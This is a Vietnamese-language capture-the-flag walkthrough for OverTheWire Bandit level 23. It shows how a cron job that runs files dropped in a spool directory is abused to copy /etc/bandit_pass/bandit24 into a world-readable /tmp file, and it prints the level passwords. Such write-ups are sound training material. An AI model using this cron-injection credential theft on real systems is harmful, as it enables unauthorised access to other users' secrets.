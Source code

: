 ## 🕵️‍♂️ Challenge:  
### A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.  

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!  

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…  

Commands you may need to solve this level  
> chmod, cron, crontab, crontab(5) (use “man 5 crontab” to access this)

## 📝 Solution:

Kết nối ssh đến máy chủ `bandit.labs.overthewire.org` với tên người dùng `bandit23`, cổng `2220`  
```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```
Password lấy từ thử level trước:  
> 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

Tương tự phần trước, đọc nội dung file sh:  

<img width="834" height="555" alt="image" src="https://github.com/user-attachments/assets/4d73ac58-e741-4df4-a4ac-95a5d4143edc" />

Nội dung file:  
```bash
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi  
done  
```

Đọc qua thì đây là script cron chạy với user `bandit24`, nó vào `/var/spool/bandit24/foo`, thực thi mọi file do bandit23 sở hữu (với timeout 60) rồi xóa chúng.  
Vậy hiện ta đang ở bandit23 thì có thể tạo 1 script trong /var/spool/bandit24/foo để bandit24 sẽ chạy script đó và script có quyền đọc /etc/bandit_pass/bandit24 để lấy pass bandit24.  
Tiến hành đi vào trong thư mục đó và tạo script:  
```bash
cd /var/spool/bandit24/foo

cat > get_pass.sh <<'SH'
cp /etc/bandit_pass/bandit24 /tmp/bandit24_pass
chmod 644 /tmp/bandit24_pass
SH

chmod 755 get_pass.sh
```

Script sẽ copy mật khẩu bandit24 ra `/tmp` và cho tất cả đọc được. Sau đó ta chỉ cần cấp quyền cho script chạy theo chu kỳ.  
Đợi hoàn tất 1 chu kỳ, ta có thể đọc pass:  

<img width="768" height="84" alt="image" src="https://github.com/user-attachments/assets/7c22a19f-3d98-42ed-b67c-823f2b33dd29" />

Ok rồi đó.  

>### 🎯 Pass: ***gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8***
